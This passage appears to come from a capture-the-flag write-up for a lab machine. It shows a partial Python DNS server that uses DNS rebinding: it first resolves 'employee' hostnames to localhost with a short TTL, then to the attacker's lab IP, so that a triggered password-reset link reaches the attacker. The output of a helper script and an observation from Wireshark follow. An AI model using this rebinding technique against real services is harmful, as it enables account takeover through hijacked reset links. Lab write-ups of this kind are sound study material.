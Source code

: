 ```py
    def __getattr__(self, item):
        return DomainName(item + '.' + self)

def dns_response(data):
    request = DNSRecord.parse(data)

    print(request)

    reply = DNSRecord(DNSHeader(id=request.header.id, qr=1, aa=1, ra=1), q=request.q)

    qname = request.q.qname
    qn = str(qname)
    qtype = request.q.qtype
    qt = QTYPE[qtype]
    if qn != "":
        D = DomainName(qn)
    IP = '10.10.14.65'
    TTL = 600
    global a
    if "employee" in qn and a > 2:  # HANDLE DOUBLE REQUEST
        IP = '10.10.14.65'
        a += 1
    elif "employee" in qn:
        a += 1
        TTL = 10
        IP = '127.0.0.1'
...[snip]...	
```

Running it again and looking at the curl output there is no error this time and all seems to have went well.

```
$ sudo ./forward_and_reset.sh
ok
HTTP/1.1 200 OK
...[snip]...
<body>
<div class="alert alert-success alert-dismissible fade show" role="alert">Reset link sent, please check your email.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></butt
on></div>
        <div class="limiter">
...[snip]...
```

After about a minute we see another dns request in wireshark which seems to come from the user clicking on the reset link. This request now get's resolved to our ip.

[![wireshark_triple](/img/crossfittwo/wireshark_triple.png)](/img/crossfittwo/wireshark_triple.png)
